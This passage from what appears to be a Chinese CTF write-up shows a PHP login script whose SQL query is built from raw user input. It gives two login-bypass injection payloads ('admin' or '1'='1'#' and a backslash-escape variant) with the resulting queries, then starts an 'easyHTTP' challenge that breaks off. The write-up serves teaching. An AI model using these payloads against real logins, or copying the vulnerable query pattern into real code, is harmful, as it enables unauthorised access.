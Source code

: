 源码如下：

```php
<?php
    error_reporting(0);
    session_start();
    include "connect.php";

    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST["username"];
        $password = $_POST["password"];

        $sql = "SELECT * FROM users WHERE username = '" . $username . "' AND password = '" . $password . "'";
        $result = $conn->query($sql);

        if ($result->num_rows > 0) {
            // User is authenticated, store user information in session
            $_SESSION["username"] = $username;
            $_SESSION["password"] = $password;
            $_SESSION["loggedin"] = true;

            // Redirect to dashboard or home page
            header("Location: dashboard.php");
            exit();
        } else {
            $error = "Invalid username or password";
        }
    }
?>
```

username=admin' or '1'='1'#拼接后的SQL语句如下：

```sql
SELECT * FROM users WHERE username = 'admin' or '1'='1'#' AND password = 'xxx';
```

也可以用username=admin\&password=' or '1'='1，拼接后的SQL语句如下：

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' or '1'='1';
```

执行后都可以select到admin的信息，登录成功。

### easyHTTP

考点： HTTP协议方法以及结构

第一步：修改GET参数中npc的值为alice

![easyHTTP-1](https://raw.githubusercontent.com/StingerTeam/img\_bed/main/Pasted%20image%2020231224153508.png)

第二步：修改GET参数中npc的值为bob
